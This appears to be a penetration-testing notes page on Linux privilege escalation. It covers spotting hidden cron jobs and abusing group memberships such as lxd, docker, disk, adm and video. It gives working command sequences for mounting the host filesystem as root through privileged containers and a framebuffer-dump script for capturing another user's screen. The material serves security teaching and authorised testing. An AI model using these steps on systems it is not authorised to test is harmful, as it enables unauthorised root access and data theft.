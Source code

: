 # Linux Privilege Escalation

### Cron Jobs

Viewing `/etc/crontab` is of course the classic.

In some situation, cron jobs may be hidden from the user.  Running the below script will parse the active processes every second and output any changes, which may indicate a hidden cron job.

```bash
#!/bin/bash
IFS=$'\n'

old=$(ps -eo command)
while true; do
  new=$(ps -eo command)
  diff <( echo "$old" ) <( echo "$new" )
  sleep 1
  old=$new
done
```

If the above fails to find anything, then the process may be too short lived to find.  In this case, [Dominic Breuker's pspy](https://github.com/DominicBreuker/pspy) will allow more focused enumeration.



### Abusing Excessive Groups

Often you'll find that a user has been made a member of a group that it needn't be a part of.  From this you can abuse this to either leak information or compromise the system in unintended ways.

When first enumerating a group, see what it can access and what special permissions may be afforded it as so:

```
find / -group groupname 2>/dev/null
```

Secondly, it's probably a good idea to refer to the following

[Debian Recommendations](https://www.gitbook.com/book/reboare/booj-security/edit#)

##### adm

The admin group, adm, allows the user to view logs in `/var/log`.  Whilst this is not directly exploitable, it can be used to leak sensitive information, such as user actions, vulnerable applications and any potentially hidden cron-jobs.

##### lxd

If a member of the lxd gorup, the user can use this to escalate to root, and potentially escape any containers it is a member of.

```bash
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash
```

By doing this we effectively have root permissions.  While you won't be able to run arbitrary code on the host, you can write and read any file with root privileges, allowing you to, for example, write a new root password in the /etc/shadow folder.

The [lxd-alpine-builder](https://github.com/saghul/lxd-alpine-builder) is ideal for engagements, as it's no larger than 4MB.

##### docker

In much the same vein as lxd, we can utilise the docker group to get full root privileges.

```
docker run -v /:/mnt/rootfs -i -t chrisfosterelli/rootplease
```

Similarly, we can use the [alpine](https://github.com/gliderlabs/docker-alpine/tree/2127169e2d9dcbb7ae8c7eca599affd2d61b49a7) docker image, if no useable containers are uploaded to the host.

##### disk

The disk group gives the user full access to any block devices contained within `/dev/`.  Since `/dev/sda1` will in general be the global file-system, and the disk group will have full read-write privileges to this device:

```
brw-rw---- 1 root disk 8, 1 Feb  5 13:38 /dev/sda1
```

From this we can use debugfs to enumerate the entire disk with effectively root level privileges.  We also have full read-write access to the disk block files.  From this we can extricate or write arbitrary data to them.

##### video

The video group controls access to graphical output devices.  The output to screen is stored within the [framebuffer](https://www.kernel.org/doc/Documentation/fb/framebuffer.txt), which can be dumped to disk and converted to an image, using the following [script](https://www.cnx-software.com/2010/07/18/how-to-do-a-framebuffer-screenshot/):

```perl
#!/usr/bin/perl -w

$w = shift || 240;
$h = shift || 320;
$pixels = $w * $h;

open OUT, "|pnmtopng" or die "Can't pipe pnmtopng: $!\n";

printf OUT "P6%d %d\n255\n", $w, $h;

while ((read STDIN, $raw, 2) and $pixels--) {
   $short = unpack('S', $raw);
   print OUT pack("C3",
      ($short & 0xf800) >> 8,
      ($short & 0x7e0) >> 3,
      ($short & 0x1f) << 3);
}

close OUT;
```

We can run the above script in the following manner:

```bash
cp /dev/fb0 /tmp/fb0.raw
width=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f1)
height=$(cat /sys/class/graphics/fb0/virtual_size | cut -d, -f2)
./raw2png $width $height < /tmp/fb0.raw > /tmp/fb0.png
```

This isn't directly exploitable, but utilized correctly can allow you to view a user with physical access' session and potentially leak information this way.  On modern systems this isn't likely exploitable.

[Alternative Script](ftp://ftp.embeddedarm.com/ts-arm-sbc/ts-7350-linux/samples/bmptoraw.c)

